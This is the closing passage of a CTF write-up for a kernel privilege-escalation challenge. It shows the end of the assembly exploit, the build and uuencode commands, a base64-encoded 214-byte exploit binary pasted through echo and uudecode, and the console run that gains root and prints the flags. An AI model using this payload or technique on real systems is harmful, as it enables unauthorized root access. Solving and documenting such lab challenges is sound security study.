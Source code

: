 ```asm
ioctl_arg      equ     task + 8
cred           equ     ioctl_arg + 24
buf            equ     cred + CRED_SIZE

filesize       equ     $ - $$
```

All that gives us a nice 214-bytes binary, that can be easily uuencoded:

```
$ nasm -f bin -o exploit exploit.asm && chmod +x exploit && gzip -9 exploit
$ ls -la exploit.gz
-rwxr-xr-x. 1 muflon muflon 214 Apr 20 22:03 exploit.gz
$ echo "echo -e \"$(uuencode -m exploit.gz /tmp/exploit.gz | tr '\n' _ | sed 's/_/\\n/g')\" | uudecode"
echo -e "begin-base64 755 /tmp/exploit.gz\nH4sICKEfJGYCA2V4cGxvaXQAq3f1cWNiZGSAASYGOwYQr6KBhQPEd2DABA4M\nFgwwHSCaHVkSqg9GR0EVwmgGAQjlsd+nEaJiHxOQ2LUNKL8DxOJn9eg87rEr\nCSrrcfzACSnFJo9OJo/jThxRQFEgLQCS2qcAJHYIQLR0s6iC5XQ7mIF6bB3E\nFZtKMqGafkE1gaxGUi/UARSGqKiCqmhAMtHwQLhHr41qHVBqJ8i6z6vj9xlg\n2vgy6f///ztswGL6Kall+gWZBak5mXmpDADpL3sJWgEAAA==\n====\n" | uudecode
```

# Final exploit

## Local

Pasting that `echo` command in the VM console:

```
/ $ echo -e "begin-base64 755 /tmp/exploit.gz\nH4sICKEfJGYCA2V4cGxvaXQAq3f1cWNiZGSAASYGOwYQr6KBhQPEd2DABA4M\nFgwwHSCaHVkSqg9GR0EVwmgGAQjlsd+nEaJiHxOQ2LUNKL8DxOJn9eg87rEr\nCSrrcfzACSnFJo9OJo/jThxRQFEgLQCS2qcAJHYIQLR0s6iC5XQ7mIF6bB3E\nFZtKMqGafkE1gaxGUi/UARSGqKiCqmhAMtHwQLhHr41qHVBqJ8i6z6vj9xlg\n2vgy6f///ztswGL6Kall+gWZBak5mXmpDADpL3sJWgEAAA==\n====\n" | uudecode
/ $ gunzip /tmp/exploit.gz
/ $ /tmp/exploit
/ # id 
uid=0(root) gid=0(root) groups=1000
/ # cat /flag
shc2024{DEMO_FLAG_DO_NOT_SUBMIT}
```

## Remote

And, finally, doing this in the CTF environment:

```
/ # cat /flag
shc2024{I_did_tax_evasion_for_fun_and_pr0fit}
```

---

## `shc2024{I_did_tax_evasion_for_fun_and_pr0fit}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
